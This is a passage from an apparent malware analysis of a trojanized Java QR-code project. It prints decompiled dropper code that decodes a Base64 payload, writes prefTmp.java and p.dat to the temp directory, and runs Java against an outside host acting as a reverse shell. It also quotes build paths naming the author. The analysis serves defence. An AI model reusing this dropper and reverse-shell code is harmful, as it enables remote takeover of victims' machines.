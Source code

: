 ```java
if (resStr.length() > 11)
{
    String enc_data = resStr.substring(10);
    byte [] dec_data = Base64.getDecoder().decode(enc_data);
    String org_file = new String(dec_data, StandardCharsets.UTF_8);
    String org_path;
}

```

- Then the malware will drop two files on the temporary directory: p.dat and prefTmp.java. The later will receive the 10 characters decoded on the previous step.

```java
if (Integer.parseInt(getOperatingSystem()) == 0)
{
    org_path = System.getProperty("java.io.tmpdir") + "\\prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "\\p.dat";
} else {
    org_path = System.getProperty("java.io.tmpdir") + "/prefTmp.java";
    sec_path = System.getProperty("java.io.tmpdir") + "/p.dat";
}
try (FileWriter file = new FileWriter(org_path, true);BufferedWriter buffer = new BufferedWriter(file)) {
    buffer.write(org_file);
}
```

- Then the command java $TEMP/prefTmp.java $UID https://www.git-hub.me/view.php is executed, acting as a reverse shell. 

```java
String cmdline = "java " + org_path + " " + uid + " " + POST_URL;
Runtime.getRuntime().exec(cmdline);
Thread.sleep(3000);
```

### Interesting details

- The `inputFiles.lst` file contains Maven build information. From it, it is possible to know that the author of the malware calls himself *Edward* and uses a Windows platform:
  
```bash
#[...]
[...]/default-compile/inputFiles.lst:275:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\common\detector\MathUtils.java
[...]/default-compile/inputFiles.lst:276:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\client\result\VEventResultParser.java
[...]/default-compile/inputFiles.lst:277:C:\Users\Edward\Downloads\qr-code-generator-and-reader-master\qr-code-generator-and-reader-master\src\main\java\com\google\zxing\oned\Code128Writer.java
#[...]
  ```

<a name="indicators"></a>
## IOCs
